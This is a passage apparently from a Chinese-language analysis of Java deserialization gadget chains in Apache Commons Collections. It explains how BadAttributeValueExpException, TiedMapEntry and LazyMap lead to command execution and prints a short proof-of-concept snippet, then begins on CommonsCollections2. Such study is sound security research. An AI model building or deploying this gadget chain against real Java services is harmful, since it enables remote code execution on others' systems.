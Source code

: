 TiedMapEntry类的toSting方法在调用getValue方法时会对输入进来的map进行get操作,这里hashCode函数也是调用了getValue发法，如果能有一个类会在反序列化中调用hashCode函数那么也是会触发命令执行的

![-w728](media/15662017023838/15667534836620.jpg)

漏洞利用的poc就很清晰了,仍然是用transformerChain构造一个LazyMap,然后利用LazyMap构造一个TiedMapEntry，随便指定一个map中不存在的key就可以了，然后利用TiedMapEntry构造BadAttributeValueExpException

完整poc如下：
```
Map innerMap = new HashMap();
Map lazyMap = org.apache.commons.collections.map.LazyMap.decorate(innerMap, transformerChain);
TiedMapEntry entry = new TiedMapEntry(lazyMap, "b");
BadAttributeValueExpException val = new BadAttributeValueExpException(null);
Field valField = val.getClass().getDeclaredField("val");
valField.setAccessible(true);
valField.set(val, entry);
```

触发过程就是`BadAttributeValueExpException`在反序列化过程调用`TiedMapEntry`的`toString`方法，`TiedMapEntry`对`LazyMap`进行了get操作，执行了`transfrom`方法，剩下的与上边相同，就触发了命令执行

### CommonsCollections2

CommonsCollections2主要利用了TemplatesImpl、InvokerTransformer、TransformingComparator、PriorityQueue

同样先把断点打到exec方法上，通过yso的payload可以看到被序列化类是PriorityQueue，所以从PriorityQueue的readObject方法开始跟，简单说PriorityQueue是一个优先级队列，可以根据构造对象时提供的Comparator对元素进行排序。
